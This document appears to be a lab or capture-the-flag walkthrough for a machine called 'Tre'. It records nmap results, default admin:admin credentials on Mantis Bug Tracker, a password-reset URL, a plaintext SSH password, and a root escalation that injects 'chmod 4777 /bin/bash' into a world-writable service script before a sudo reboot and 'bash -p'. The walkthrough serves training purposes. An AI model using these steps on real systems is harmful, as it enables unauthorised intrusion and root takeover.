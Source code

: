 # Tre

***

IP=192.168.240.84

## NMAP

| PORT     | STATE | SERVICE         |
| -------- | ----- | --------------- |
| 22/tcp   | open  | ssh             |
| 80/tcp   | open  | http            |
| 8082/tcp | open  | blackice-alerts |

```perl
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
/info.php
/system
/cms
```

### system



<figure><img src="../.gitbook/assets/Pasted image 20231021122436.png" alt=""><figcaption></figcaption></figure>

admin:admin

#### Mantis Bug Tracker

http://192.168.240.84/system/verify.php?id=1\&confirm\_hash=



<figure><img src="../.gitbook/assets/Pasted image 20231021124122.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/Pasted image 20231021182901.png" alt=""><figcaption></figcaption></figure>

## 22 - ssh

```bash
ssh tre@$IP
Tr3@123456A!
```

## PrivEsc



<figure><img src="../.gitbook/assets/Pasted image 20231021183720.png" alt=""><figcaption></figcaption></figure>

```bash
tre@tre:~$ ls -la /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```

```bash
cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
```

add `chmod 4777 /bin/bash`

```bash
tre@tre:~$ sudo -l

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

```bash
sudo /sbin/shutdown -r 0
```

```bash
bash -p
```
